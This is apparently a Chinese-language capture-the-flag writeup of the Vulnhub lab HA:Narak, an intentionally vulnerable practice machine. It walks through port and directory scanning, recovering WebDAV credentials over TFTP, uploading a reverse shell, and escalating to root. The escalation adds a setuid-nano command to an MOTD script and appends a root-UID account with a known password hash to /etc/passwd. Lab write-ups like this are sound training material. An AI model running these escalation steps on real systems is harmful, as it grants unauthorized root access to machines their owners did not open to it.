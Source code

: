 ```yaml
---
layout: post
title: "Vulnhub HA:Narak Writeup"
tags: [Vulnhub, Pentest]
comments: true
---
```


## 前言

* Pentester

> Author: xxxeyJ   
> Blog: https://tricksongs.com/

* 靶机信息 (Target Information)

> Lab Name: HA:Narak   
> Date Release: 23 Sep 2020   
> Author: Hacking Articles   
> Series: HA   

* 文件信息 (File Information)

> Filename: narak.ova   
> File Size: 791 MB   

* Checksum   

> MD5: C058F595C60923998659C630CEA576E6   
> SHA1: 1340392A00BE6098CD0AEAFA26D2550FC4F2A459

* Download Link: https://www.vulnhub.com/entry/ha-narak,569/

## RECON

> Target IP Address: 192.168.0.103

首先使用 Nmap 扫一下端口;

![](https://tricksongs.com/images/HA_Narak/Ports.PNG)

看一下 80 端口，艺术气氛 MAX;

![](https://tricksongs.com/images/HA_Narak/Index.PNG)

> CTRL + U 看一下前端源码，发现引用了 images 目录下的图片文件，随手改一下路径，发现有个目录遍历的问题;

![](https://tricksongs.com/images/HA_Narak/SourceCode.PNG)

![](https://tricksongs.com/images/HA_Narak/ImagesIndex.PNG)

## ENUMERATION

跑一下字典看看有没有什么东西;

```Shell
xxxeyJ@localhost:~/Tools/ffuf$ ./ffuf -c -u http://192.168.0.103/FUZZ -w dict.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.103/FUZZ
 :: Wordlist         : FUZZ: dict.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

                        [Status: 200, Size: 2992, Words: 356, Lines: 68]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess~              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess/              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.bak           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.bak1          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessbak            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessBAK            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.inc           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess-dev           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess_extra         [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessold            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.BAK           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess-marco         [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessOLD            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessOLD2           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess_orig          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess-local         [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.orig          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessold2           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.save          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.txt           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess_sc            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.sample        [Status: 403, Size: 278, Words: 20, Lines: 10]
.htgroup                [Status: 403, Size: 278, Words: 20, Lines: 10]
.html                   [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd.bak           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd/              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd.inc           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswds              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswrd              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd_test          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd-old           [Status: 403, Size: 278, Words: 20, Lines: 10]
.ht_wsr.txt             [Status: 403, Size: 278, Words: 20, Lines: 10]
.htusers                [Status: 403, Size: 278, Words: 20, Lines: 10]
icons/                  [Status: 403, Size: 278, Words: 20, Lines: 10]
icons/small/            [Status: 403, Size: 278, Words: 20, Lines: 10]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
images/                 [Status: 200, Size: 4566, Words: 239, Lines: 36]
index.html              [Status: 200, Size: 2992, Words: 356, Lines: 68]
index.phps              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.old           [Status: 403, Size: 278, Words: 20, Lines: 10]
server-status/          [Status: 403, Size: 278, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
style.css               [Status: 200, Size: 23358, Words: 211, Lines: 232]
tips.txt                [Status: 200, Size: 58, Words: 12, Lines: 2]
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/index.html       [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/servlet/webdav/  [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/                 [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/site/codul/users/cborgea3 [Status: 401, Size: 460, Words: 42, Lines: 15]
:: Progress: [76198/76198] :: Job [1/1] :: 12699 req/sec :: Duration: [0:00:06] :: Errors: 1 ::
```

icons 目录返回的状态码是 403，说明只有 images 目录配置不当，webdav 及其他几个子目录返回的状态码都是 401，访问一下发现 webdav 目录启用了基础认证(Basic Auth)，跑了一会字典无果;

![](https://tricksongs.com/images/HA_Narak/webdav_401.PNG)

查看一下 tips.txt 文件内容，提示可以在 creds.txt 中找到线索，把文件拼接在了 URL 后面，发现并不存在此文件;

![](https://tricksongs.com/images/HA_Narak/tips.PNG)

![](https://tricksongs.com/images/HA_Narak/NF.PNG)

80 端口到了这线索差不多就断了，然后看一下之前扫到的其他端口;

先看一下 tftp 服务，发现可以连接并获取到相关文件，很明显是 base64 编码后的内容，解码一下 get 到 WEBDAV 凭据;

![](https://tricksongs.com/images/HA_Narak/tftp.PNG)

> Username: yamdoot
> Password: Swarg

## EXPLOITATION

使用 **cadaver** 上传一个 Shell，访问一下即可将 Shell Session 反弹至指定的 IP:PORT;

![](https://tricksongs.com/images/HA_Narak/cadaver.PNG)

使用 Python 将哑 Shell 提升到可交互 Shell;

```Python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://tricksongs.com/images/HA_Narak/REVERSE.PNG)

翻找系统中各类文件，发现 **/mnt/hell.sh** 的内容比较奇怪;

```Shell
#!/bin/bash
echo"Highway to Hell";
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```

> **Brainfuck** 解码后结果为: **chitragupt**，感觉是凭据，但不是一组，所以应该是某种密码;

![](https://tricksongs.com/images/HA_Narak/brainfuck.PNG)

尝试使用此密码登录 root 账户失败了;

![](https://tricksongs.com/images/HA_Narak/ROOT.PNG)

查看一下 passwd 用户表，发现除了常见的 Ubuntu 自有用户还多了几个以前没有见过的用户;

![](https://tricksongs.com/images/HA_Narak/inferno.PNG)

> 成功登入 inferno 账户，发现权限比 www-data 还小，好在 Get 到了 flag.txt;

![](https://tricksongs.com/images/HA_Narak/flag.PNG)

## PRIVILEGE ESCALATION

> 利用 **MOTD** 将权限提升为 root 用户;

```Shell
ssh inferno@192.168.0.103
which nano
ls -la /bin/nano
echo "sudo chmod u+s /bin/nano" >> /etc/update-motd.d/00-header
exit
```

使用 OpenSSL 生成 passwd 表中的 hash;

![](https://tricksongs.com/images/HA_Narak/openssl.PNG)

```Shell
ssh inferno@192.168.0.103
nano /etc/passwd
```

> 将 "hacking:$1$1337$EIeG0N38xUkEIB4U8P6fv/:0:0:root:/root:/bin/bash" 追加到 passwd 文件末尾;

```Shell
su hacking
cd ~
tail /etc/passwd
cat root.txt
```

![](https://tricksongs.com/images/HA_Narak/ROOTFLAG.PNG)

**Successfully got the flag!**

### **:)**
